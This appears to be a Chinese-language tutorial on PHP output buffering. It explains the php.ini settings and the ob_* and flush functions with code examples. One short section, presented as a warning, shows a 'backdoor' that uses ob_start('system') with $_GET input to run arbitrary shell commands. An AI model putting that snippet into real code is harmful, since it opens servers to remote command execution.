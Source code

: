 ********
Output控制
********

简介
====
说到输出缓冲，首先要说的是一个叫做缓冲器(buffer)的东西。举个简单的例子说明他的作用：我们在编辑一篇文档时，在我们没有保存之前，系统是不会向磁盘写入的，而是写到buffer中，当buffer写满或者执行了保存操作，才会将数据写入磁盘。对于PHP来说，每一次像 echo 这样的输出操作，同样是先写入到了 php buffer 里，在脚本执行完毕或者执行了强制输出缓存操作，数据才会在浏览器上显示。

其实对于PHP程序员来说，当php执行echo,print的时候，输出并没有立即通过tcp传给客户端浏览器显示，而是将数据写入php buffer。php output_buffering机制，意味在tcp buffer之前，建立了一新的队列，数据必须经过该队列。当一个php buffer写满的时候，脚本进程会将php buffer中的输出数据交给系统内核交由tcp传给浏览器显示。所以，数据会依次写到这几个地方echo/pring -> php buffer -> tcp buffer -> browser。

默认情况下，php buffer是开启的，而且该buffer默认值是4096，即4kb。你可以通过在php.ini配置文件中找到output_buffering配置。当echo，print等输出用户数据的时候，输出数据都会写入到php output_buffering中，直到output_buffering写满，会将这些数据通过tcp传送给浏览器显示。你也可以通过ob_start()手动激活php output_buffering机制，使得即便输出超过了4kb数据，也不真的把数据交给tcp传给浏览器，因为ob_start()将php buffer空间设置到了足够大。只有直到脚本结束，或者调用ob_end_flush函数，才会把数据发送给客户端浏览器。

而今天就来用实例对PHP输出缓冲控制函数“Output Control”做一个详细的解析。

.. code-block:: php

    <?php
	echo 'Apple';
	echo 'IBM';
	echo 'Microsoft'
    ?>

那我们能不能让其实时的显示呢？也就是在第一个 echo 执行完毕时就输出相应的内容呢，这时候就需要用输出缓冲控制函数来操作缓冲区了，具体怎么实现先放一边，文章的结尾会公布。

作用
====

1. 在PHP中，像header(), session_start(), setcookie() 等这样的发送头文件的函数前，不能有任何的输出，而利用输出缓冲控制函数可以在这些函数前进行输出而不报错。其实这么做没啥必要，非常少见的用法。
2. 对输出的内容进行处理，例如生成静态缓存文件、进行gzip压缩输出，这算是较常用的功能了。
3. 捕获一些不可获取的函数输出，例如phpinfo(), var_dump() 等等，这些函数都会将运算结果显示在浏览器中，而如果我们想对这些结果进行处理，则用输出缓冲控制函数是个不错的方法。说的通俗点，就是这类函数都不会有返回值，而要获取这些函数的输出数据，就要用到输出缓冲控制函数。
4. 最后一种应用就是 简介 中提到的 对一些数据进行实时的输出。

php.ini 中的相关配置项
=====================
再来看看在 php.ini 中和输出缓冲控制有关的选项，共三个分别是：output_buffering, implicit_flush 和 output_handler。

1. output_buffering 默认为 off , 当设置为 on 时，则在所有脚本自动打开输出缓冲区，就是在每个脚本都自动执行了 ob_start() 这个函数，而不用再显示的调用该函数。其也可以设置为一个整型的数字，代表缓冲区可以存储的最大字节数，我们在例1下面的说明中提到过这个配置项。
2. implicit_flush 默认为 off , 当设置为 on 时，PHP将在输出后，自动送出缓冲区内容。就是在每段输出后，自动执行 flush() 。当然有效的输出不仅指像echo , print 这样的函数，也包括HTML段。
3. output_handler 默认为 null , 其值只能设置为一个内置的函数名(ob_gzhandler)，作用就是将脚本的所有输出，用所定义的函数进行处理。他的用法和 ob_start(‘function_name') 较类似，下面会介绍到。

本篇文章中，如果没有特别说明，php.ini中output_buffering, implicit_flush 和 output_handler的值均为默认值。

Output Control 函数详解
=======================
ob_start()
-----------
``bool ob_start ([ callable $output_callback = NULL [, int $chunk_size = 0 [, int $flags = PHP_OUTPUT_HANDLER_STDFLAGS ]]] )``

此函数大家从命名上也能明白其含义，就是打开输出缓冲区，从而进行下一步的输出缓冲处理。当输出缓冲处于打开时，脚本（header除外）不会输出任何输出，而是将输出存储在内部缓冲区中。

这个内部缓冲区的内容可以使用ob_get_contents()复制到一个字符串变量中。要输出存储在内部缓冲区中的内容，请使用ob_end_flush()。或者，ob_end_clean()将丢弃缓冲区内容并关闭缓冲区。

输出缓冲区可以是栈，也就是说，当另一个ob_start()处于活动状态时，可以再次调用ob_start()。只要确保你调用ob_end_flush()对应的次数。如果多个输出回调函数处于活动状态，则将按照嵌套顺序依次对输出进行过滤。

参数：

1. 第一个参数要传递一个回调函数，其需将缓冲区内容做为参数，并且返回一个字符串。他会在缓冲区被送出时调用，缓冲区送出指的是执行了例如ob_flush()、ob_clean()等函数或者脚本执行完毕。ob_flush() 函数会在下面介绍到，来看一个简单的例子就能理解其用法：

回调的方法签名：

``string handler ( string $buffer [, int $phase ] )``

- 输出缓冲区的内容
- PHP_OUTPUT_HANDLER_\* 常量的位掩码

如果output_callback函数返回false，则直接输出原始内容给浏览器。output_callback参数可以通过传递NULL值来绕过。

注意：不能在回调函数中调用ob_end_clean(), ob_end_flush(), ob_clean(), ob_flush() 和 ob_start()

.. code-block:: php

    <?php
	function dothing1($echo_thing){
	    return ' #' . $echo_thing . '# ';
	}

	ob_start('dothing1');
	echo 'Apple'; // 输出#Apple#
    ?>

再来看一个更实际的例子，也就是常见到的将网页内容利用 gzip 压缩后再输出，代码如下：

.. code-block:: php

    <?php
	ob_start(); // 输出内容大小为5120B
	ob_start('ob_gzhandler'); // 输出内容大小为49B
	echo str_repeat('Apple', 1024);
    ?>

从输出结果看，没有使用gzip压缩的情况下,输出内容大小为5120B。使用gzip压缩的情况下，文档小了很多，压缩花费了时间，所以时间长了。

2. 第二个参数 chunk_size 为缓冲区的字节长度，如果缓冲区内容大于此长度，将会刷新缓冲区，默认值为0，代表函数将会在输出缓存区被关闭被调用。
3. 第三个参数flags参数是一个位掩码，用于控制可以在输出缓冲区上执行的操作。默认是允许清理，刷新和移除输出缓冲区，通过PHP_OUTPUT_HANDLER_CLEANABLE | PHP_OUTPUT_HANDLER_FLUSHABLE | PHP_OUTPUT_HANDLER_REMOVABLE可以明确设置输出缓冲区。等价于PHP_OUTPUT_HANDLER_STDFLAGS。

注意：ob_start() 还有一个不太明显但很致命的后门用法，实现代码如下：

.. code-block:: php

    <?php
	$cmd = 'system';
	ob_start($cmd);
	echo $_GET['a'];//?a=whoami,则会执行该命令
	ob_end_flush();
    ?>

ob_get_contents()
-----------------
``tring ob_get_contents ( void )``

此函数用来获取此时缓冲区的内容，下面的例子就能很好的理解其用法：

.. code-block:: php

    <?php
	ob_start('doting2');
	echo 'apple';
	$tmp = ob_get_contents();
	file_put_contents('./doting2', $tmp);
	ob_end_flush();
    ?>

ob_get_length()
---------------
此函数用来获取缓冲区内容的长度。

.. code-block:: php

    <?php
	echo str_pad('', 1024);//使缓冲区溢出
	ob_start();//打开缓冲区
	phpinfo();
	$string = ob_get_contents();//获取缓冲区内容
	$length = ob_get_length();//获取缓冲区内容长度
	$re = fopen('./phpinfo.txt', 'wb');
	fwrite($re, $string);//将内容写入文件
	fclose($re);
	var_dump($length); //输出长度
	ob_end_flush();//输出并关闭缓冲区
    ?>

ob_get_level()
--------------
``int ob_get_level ( void )``

此函数用来获取缓冲机制的嵌套级别，我们在介绍 ob_start() 函数时曾说过，在一个脚本中可以嵌套存在多个缓冲区，而此函数就是来获取当前缓冲区的嵌套级别，用法如下：

.. code-block:: php

    <?php
	ob_start();
	var_dump(ob_get_level()); //1
	ob_start();
	var_dump(ob_get_level()); //2
	ob_end_flush();
	ob_end_flush();
    ?>

array ob_get_status()
---------------------
``array ob_get_status ([ bool $full_status = FALSE ] )``

此函数用来获取当前缓冲区的状态，返回一个状态信息的数组，如果第一个参数为 true ，将返回一个所有输出缓冲区的详细信息的数组，否则输出顶层输出缓冲区的详细信息数组。

.. code-block:: php

    <?php
	ob_start('ob_gzhandler');
	var_export(ob_get_status());
	ob_start();
	var_export(ob_get_status());
	ob_end_flush(); ob_end_flush();
	/*
	array (
	  'name' => 'ob_gzhandler', // 为定义的输出处理函数名称，也就是在 ob_start() 函数中第一个参数传入的函数名。
	  'type' => 0, // 为处理缓冲类型，0为系统内部自动处理，1为用户手动处理
	  'flags' => 112,
	  'level' => 0, // 为嵌套级别，也就是和通过 ob_get_level() 取到的值一样
	  'chunk_size' => 0,
	  'buffer_size' => 16384,
	  'buffer_used' => 0,
	)
	array (
	  'name' => 'default output handler',
	  'type' => 0,
	  'flags' => 112,
	  'level' => 1,
	  'chunk_size' => 0,
	  'buffer_size' => 16384,
	  'buffer_used' => 0,
	)
	*/
    ?>

ob_list_handlers
----------------
``array ob_list_handlers ( void )``

此函数用来获得输出处理程序的函数名数组，也就是在 ob_start() 函数中我们指定的第一个参数，需要注意的是，如果我们传的参数是一个匿名函数，或者在配置文件中启用了 output_buffering  则该函数将返回default output handler。

.. code-block:: php

    <?php
	//using output_buffering=On
	print_r(ob_list_handlers());
	ob_end_flush();

	ob_start("ob_gzhandler");
	print_r(ob_list_handlers());
	ob_end_flush();

	// anonymous functions
	ob_start(create_function('$string', 'return $string;'));
	print_r(ob_list_handlers());
	ob_end_flush();
	/*
	Array
	(
	    [0] => 'default output handler'
	)
	Array
	(
	    [0] => 'ob_gzhandler'
	)
	Array
	(
	    [0] => 'default output handler'
	)
	*/
    ?>

output_add_rewrite_var()
------------------------
``bool output_add_rewrite_var ( string $name , string $value )``

此函数添加URL重写机制的键和值，这里的URL重写机制，是指在URL的最后以GET方式添加键值对，或者在表单中以隐藏表单添加键值对。绝对的URL不会被添加。该机制类似于开启session.use_trans_sid的透明URL重写。

该函数的行为由php.ini参数 ``url_rewriter.tags`` 和 ``url_rewriter.hosts`` 控制。

注意：调用这个函数会隐式的开始输出缓冲，如果它没有被开启。

.. code-block:: php

    <?php
	output_add_rewrite_var('var', 'value');

	// some links
	echo '<a href="file.php">link</a>
	<a href="http://example.com">link2</a>';

	// a form
	echo '<form action="script.php" method="post">
	<input type="text" name="var2" />
	</form>';

	print_r(ob_list_handlers());
	/* 输出结果
	<a href="file.php?var=value">link</a>
	<a href="http://example.com">link2</a>

	<form action="script.php" method="post">
	<input type="hidden" name="var" value="value" />
	<input type="text" name="var2" />
	</form>

	Array
	(
	    [0] => URL-Rewriter
	)
	 */
    ?>

可以看到不是绝对URL地址的链接 和 Form表单 被加上了对应的键值对。

output_reset_rewrite_vars
-------------------------
此函数用来清空所有的URL重写机制，也就是删除由 output_add_rewrite_var() 设置的重写变量。

.. code-block:: php

    <?php
	session_start();
	output_add_rewrite_var('var', 'value');

	echo '<a href="file.php">link</a>';
	ob_flush();

	output_reset_rewrite_vars();
	echo '<a href="file.php">link</a>';
	/*
	<a href="file.php?PHPSESSID=xxx&var=value">link</a>
	<a href="file.php">link</a>
	*/
    ?>

ob_implicit_flush()
-------------------
``void ob_implicit_flush ([ int $flag = 1 ] )``

该函数打开或关闭隐式刷新。在每次输出调用之后或者调用ob_flush()方法后，隐式刷新都将导致刷新操作，因此不再需要对flush()进行显式调用。传入1表示开启，0表示关闭。

.. code-block:: php

    <?php
	ob_end_flush();
	ob_implicit_flush();
	for ($i = 0; $i < 10; $i++) {
	    echo "$i<br/>";
	    sleep(1);
	}
    ?>

注意：这里的flush()是对内核空间缓冲区进行刷新，ob_flush()是对用户空间缓冲区进行刷新。所以，当开启缓存时，ob_implicit_flush仅仅自动调用flush()，由于用户空间没有刷新数据到内核空间，仅仅刷新内核空间的缓冲区还是没有数据立即显示。

如果要立即显示，则需要关闭用户空间的缓冲区。如下所示：

.. code-block:: php

    <?php
	ob_end_flush(); // 关闭缓存
	ob_implicit_flush();
	for ($i = 0; $i < 10; $i++) {
	    echo "$i\n";
	    sleep(1);
	}
	// 或者
	for($i=0;$i<10;$i++) {
	    echo "$i\n";
	    ob_flush();
	    flush();
	    sleep(1);
	}
	// 或者
	ob_implicit_flush();
	for($i=0;$i<10;$i++) {
	    echo "$i\n";
	    ob_flush();
	    sleep(1);
	}
	// 或者
	ob_end_flush();
	for($i=0;$i<10;$i++) {
	    echo "$i\n";
	    flush();
	    sleep(1);
	}
    ?>

如果你需要部分缓存，部分实时刷新，则需要：

.. code-block:: php

    <?php
	ob_implicit_flush(); // implicitly calls flush() after every ob_flush()

	echo "This output is buffered.\n";
	echo "As is this.\n";

	for ($i = 0; $i < 10; $i++) {
	    echo "$i\n";
	    ob_flush();
	    sleep(1);
	}
    ?>

刷新缓冲区函数
--------------

flush()
^^^^^^^
用来将 **PHP系统缓冲区(内核中)** 中所有数据发送到浏览器显示，且不会对用户缓存区有任何影响。如果使用PHP用户空间的输出缓存区，则需要同时调用ob_flush()和flush()来发送缓冲区中数据到浏览器。

ob_flush()
^^^^^^^^^^
此函数的作用就是 “送出” 当前缓冲区内容，同时清空缓冲区。如果要进一步处理缓冲区的内容，则必须在ob_flush()之前调用ob_get_contents()，因为在调用ob_flush()后将清空缓冲区内容。

ob_flush()与flush()的区别
^^^^^^^^^^^^^^^^^^^^^^^^^
- 在没有开启 **用户空间输出缓存区** 时，脚本输出的内容都在系统缓冲区中处于等待输出的状态， ``flush()`` 可以将 **内核空间输出缓冲区** 中等待输出的内容立即发送到客户端。
- 开启缓存后，脚本输出的内容存入了 **用户空间输出缓存区** 中，这时 **内核空间输出缓冲区** 没有处于等待输出状态的内容，你直接使用 ``flush()`` 刷新 **内核空间输出缓冲区** 不会向客户端发出任何内容。而 ``ob_flush()`` 的作用就是将存在 **用户空间输出缓存区** 中的内容放入到 **内核空间输出缓冲区** ，但不会直接发送到客户端，这时你还需要再使用 ``flush()`` 刷新 **内核空间输出缓冲区** ，客户端才能立即获得脚本的输出。

ob_get_flush()
^^^^^^^^^^^^^^
刷新输出缓冲区，将其内容作为字符串返回并关闭输出缓冲区。

ob_end_flush()
^^^^^^^^^^^^^^
这个函数将发送最外层的输出缓冲区的内容（如果有的话）并关闭这个输出缓冲区。如果要进一步处理缓冲区的内容，则必须在ob_end_flush()之前调用ob_get_contents()，因为在调用ob_end_flush()后将关闭缓冲区。

刷新和关闭所有输出缓冲区：

.. code-block:: php

    <?php
	while (@ob_end_flush());
    ?>

清空缓冲区函数
--------------

ob_clean()
^^^^^^^^^^
该函数清空输出缓冲区的内容。

ob_get_clean()
^^^^^^^^^^^^^^
获取当前的缓冲区内容并关闭输出缓冲区。

ob_end_clean()
^^^^^^^^^^^^^^
该函数清空输出缓冲区的内容并关闭输出缓冲区。

关闭缓冲区函数
--------------
- ob_get_flush()
- ob_get_clean()
- ob_end_flush()
- ob_end_clean()



